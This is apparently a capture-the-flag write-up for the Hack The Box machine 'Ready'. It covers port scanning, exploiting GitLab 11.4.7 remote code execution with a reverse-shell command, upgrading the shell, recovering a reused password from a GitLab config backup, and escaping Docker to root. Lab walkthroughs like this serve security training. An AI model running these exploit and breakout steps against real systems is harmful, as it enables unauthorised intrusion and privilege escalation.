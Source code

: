 Ready
==================
```
Nmap scan report for 10.10.10.220
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5080/tcp open  onscreen
``` 
On this machine we found open ports at 22 (SSH) and 5080. Visting the website on port 5080 we are given a Sign In Page of GitLab.
We can create a new User.

Visitng the help page we find the version number with the hint to update asap:

![gitlabhelp.png](images/gitlabhelp.png)

Searching online for vulnerabilities of that version we find:
https://github.com/ctrlsam/GitLab-11.4.7-RCE

with:
```
python3 exploit.py -u [selbst_erstellter_user] -p [selbst_erstelltes_passwort] -g http://ready.htb -l [DEINE_IP_DU_SHIT] -P 4444
```
and a listener we al#ready# got user access.
The exploit will create a project and do some magic to get a shell.

root:
-------------------

To get a better shell we can use:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
With a little bit of enumeration an the standard john password grepper we find an password in /opt/backup/gitlab.rb.
In the gitlab.rb the gitlab rails smtp password is set to: wW59U!ZKMbG9+*#h

Just by trying 'su' and the given password we became root. But we are still inside the docker.
To escape we can use: https://github.com/PercussiveElbow/docker-escape-tool

quite enough:
```
./docker-escape check
```
An other way: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout

Now we escaped the docker ant rooted the machine.
